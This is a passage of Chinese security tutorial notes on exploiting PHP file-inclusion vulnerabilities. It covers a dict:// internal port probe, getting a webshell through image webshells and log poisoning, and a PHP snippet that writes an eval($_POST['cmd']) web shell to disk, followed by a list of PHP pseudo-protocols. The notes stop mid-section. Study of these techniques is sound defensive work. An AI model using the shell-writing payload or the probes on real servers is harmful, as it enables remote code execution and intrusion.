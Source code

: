 ****

### 6. 漏洞利用

#### (1). 端口探测

```php
url=dict://ip:80
[URL]?action=dict://192.168.41.46:80	//探测80端口
```

#### (2). 包含上传的Wetshell

* 上传图片马，利用文件包含调用图片马，使用工具进行连接

#### (3). 包含日志文件Getshell

* **构造报错信息写进错误日志**

#### (4). 远程文件包含写Shell

```php
<?php
	fputs(fopen('shell.php','w'),'<?php eval($_POST['cmd']);?>');    
?>
```

#### (5). 使用**PHP伪协议**写Getshell

****

### 7. 伪协议

#### (1). 定义

* 伪协议不同于网上真实存在的协议，而是为**关联应用程序而使用的**

| 伪协议  | 说明                |
| ------- | ------------------- |
| file:// | 访问本地文件系统    |
| http:// | 访问HTTP(s)网址     |
| ftp://  | 访问FTP(s)的URLS    |
| php://  | 访问各个输入/输入流 |
| zlib:// | 压缩流              |
| data:// | 数据(RFC2397)       |
| rar://  | RAR                 |

#### (2). 分类

##### a. file://协议
